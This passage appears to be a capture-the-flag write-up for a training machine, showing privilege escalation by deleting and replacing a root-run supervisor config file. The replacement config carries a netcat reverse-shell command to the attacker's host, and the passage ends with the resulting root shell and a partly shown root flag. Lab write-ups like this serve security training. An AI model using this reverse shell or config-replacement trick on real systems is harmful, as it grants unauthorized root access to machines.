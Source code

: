 `memcached.ini` contains the configuration of the process running.

```
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

I can't change this file:

```
lacasadepapel [~]$ echo invalid > memcached.ini
-ash: can't create memcached.ini: Permission denied
```

But I can delete it because of the SGID permission:

```
lacasadepapel [~]$ rm memcached.ini
rm: remove 'memcached.ini'? y
lacasadepapel [~]$ ls
memcached.js  node_modules
```

Ok, so now I can just create a new file that'll spawn a reverse shell as root:

```
[program:memcached]
command = sudo /usr/bin/nc 10.10.14.23 4444 -e /bin/sh
```

Then wait a few minutes... Root shell!

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.131.
Ncat: Connection from 10.10.10.131:43525.
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cd /root
ls
root.txt
cat root.txt
586979....
```